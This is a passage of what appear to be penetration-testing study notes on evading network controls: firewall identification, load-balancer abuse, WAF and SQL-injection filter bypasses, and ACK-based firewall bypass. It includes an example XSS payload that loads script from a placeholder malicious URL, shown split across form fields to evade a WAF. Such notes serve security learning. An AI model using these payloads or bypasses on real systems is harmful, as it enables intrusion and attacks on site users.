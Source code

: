 - Firewalls are typically easier to identify. Some firewalls drop traffic that isn't allowed, in which case if you send a message, you won't get a success or ICMP message back.
- If the firewall is returning ICMP messages and you have one good port for a host and one bad port, you can look at the TTL on the packet to determine the differences.
- nmap.org

### Evasion

- bypasses for network-based controls are heavily dependent on both the control's tuning and the platform running it.
- Round-robin-based load balancing takes the requests and sends them to a pool of systems, one at a time, in round-robin fashion. Depending on how this is implemented, users aren't guaranteed to end up on the same system each time. This means you'll either need to compromise one and then make many requests until you are once more routed to the exploited system.
- With persistent load balancing, the device frequently generates and stores some form of session variable and uses that to determine the target system for a given session. While this guarantees session consistency, this can be abused.
- Exploits can be used to compromise the load balancer and then change the configurations to benefit the attacker.
  - One such attack that has been publicly abused is the Big-IP RCE that takes advantage of an exposed management interface and then lets the attacker gain RCE and either tunnel through the device or take it over.
- WAF bypasses are heavily dependent on the software being used, but WAFs are frequently minimally configured in order to save time and not prevent legitimate attacks, so typical attack patterns such as \<script src=[http://maliciousurl/mal.js](http://maliciousurl/mal.js)\> would be blocked, but less common methods of injection may not.
- A common technique is to split the attack across variables.
  - If there is a first name and a last name field, make the first name \<script and the last name src=[http://maliciousurl/mal.js](http://maliciousurl/mal.js)\>. When the application puts them together, it may still interpret the attack, while the WAF misses it.
- Other techniques are to use unicode encoding values or to use less common abuse tags like \<img\>, which may also work.
- For SQL injection vulnerabilities, SQL has various constructs that can be abused. You may be successful with SQL attacks by using techniques such as using encoded values, adding random comments, splitting values, or others.
- Firewall bypasses have two predominant varieties: exploit based bypasses and filter bypasses.
  - Exploits typically involve sending specially crafted packets to a firewall that will cause the firewall to crash in a specific way that will let an attacker execute commands.
  - Bypasses take advantage of misconfigurations or features of the firewalls that are designed to make them more friendly to users.
    - For misconfigurations, security administrators frequently design controls for how protocols are supposed to work.
    - In a three-way handshake, a client sends a SYN request to the server, and the server sends back a SYN-ACK, and the client finishes with an ACK and data.
    - To stop new connections on certain ports, teh administrator may block SYN packets, but if the attacker starts off with an ACK packet, it would be allowed through because the rules would assume that a connection must already exist.
    - Protocol helpers help open ports for specific types of multiport protocols and are another bypass target.
    - [http://home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/](http://home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/)
    - https://nmap.org/book/firewall-subversion.html
